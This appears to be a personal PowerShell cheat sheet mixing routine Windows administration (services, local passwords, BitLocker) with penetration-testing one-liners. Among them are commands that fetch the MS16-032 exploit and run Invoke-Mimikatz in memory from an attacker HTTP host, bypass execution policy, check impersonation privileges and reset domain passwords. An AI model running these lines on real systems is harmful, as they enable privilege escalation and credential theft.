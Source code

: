 ```yaml
---
category: Uncategorized
tags: []
---
```

Powershell Commands

Run Powershell Commands from Command Prompt

~~~PowerShell
powershell -c “<Command to run>”
~~~

Run Powershell File (.ps1) from Command Line

~~~PowerShell
powershell -ExecutionPolicy bypass -f "powershell_file.ps1" -parameter data
~~~

Download File/Executable from HTTP Server

~~~PowerShell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.7.30/Windows/ms16-032.ps1','MS16-032.ps1')"
~~~

Download File/Executable from HTTP Server and Execute in Memory with Arguments

~~~PowerShell
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.19.55/Windows/Powershell/Nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
~~~

Run Executable As Its Own Process

~~~PowerShell
Start-Process "shell-name.exe"
~~~

Determining Available Tokens for Impersonation

~~~PowerShell
whoami /priv
~~~

Stopping and Starting Services

~~~PowerShell
sc stop <servicename>
sc start <servicename>
~~~

Querying Service Configurations

~~~PowerShell
sc qc <servicename>
~~~

Querying Service States

~~~PowerShell
sc query <servicename>
~~~

Setting Password as Convert to Secure String for use with Setting a DomainUserPassword

~~~PowerShell
$UserPassword=ConvertTo-SecureString ‘P@ssw0rd1234’ -AsPlainText -Force
Set-DomainUserPassword -Identify <DomainUserAccount> -AccountPassword $UserPassword
~~~

Parameters within scripts

~~~PowerShell
<#
Sets parameters for scripting that can be used in the command line
.ex
script.ps1 -Variable1 V1Data -Variable2 V2Data -Variable3 V3Data
#>
param ($Variable1, $Variable2, $Variable3)
~~~

Setting Password for Local Users

~~~PowerShell
$Password = ConvertTo-SecureString $Pass -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "user"
$UserAccount | Set-LocalUser -Password $Password
~~~

Renaming Computer

~~~PowerShell
Rename-Computer -NewName $CompName
~~~

Setting Bitlocker Key and then Creating a file with the recovery key information

~~~PowerShell
#Set Bitlocker key
Enable-BitLocker -MountPoint "C:" -RecoveryPasswordProtector -EncryptionMethod XtsAes256 -UsedSpaceOnly -SkipHardwareTest
#Create text file with Recovery Key Information
$BVol = Get-BitLockerVolume -MountPoint "C"
$Bvol.KeyProtector > C:\Users\user\Documents\recovery.txt
~~~

